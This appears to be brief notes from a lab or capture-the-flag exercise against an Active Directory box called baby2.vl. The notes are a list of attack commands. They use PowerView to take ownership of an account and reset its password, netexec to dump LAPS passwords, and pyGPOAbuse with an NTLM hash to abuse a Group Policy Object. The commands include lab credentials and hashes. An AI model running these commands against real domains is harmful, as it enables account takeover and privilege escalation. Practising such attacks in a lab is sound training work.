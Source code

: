 - Generic All :
```sh
Import-Module ./PowerView.ps1

Set-DomainObjectOwner -identity gpoadm -OwnerIdentity Amelia.Griffiths 

Add-DomainObjectAcl -TargetIdentity gpoadm -PrincipalIdentity Amelia.Griffiths -Rights ResetPassword 

$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force

Set-DomainUserPassword -identity gpoadm -accountpassword $cred
```

- Generic All 2 :
```sh
netexec smb 10.10.211.230 -u abbie.smith -p "CMe1x+nlRaaWEw" --laps
#If laps enable
```

- GPO Abuse :
```sh
#GPOabuse
pygpoabuse.py baby2.vl/gpoadm -hashes ":20DEF05980FC9E4C846AE5530963B573" -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -dc-ip 10.10.109.95 
```

Tool: https://github.com/Hackndo/pyGPOAbuse.git
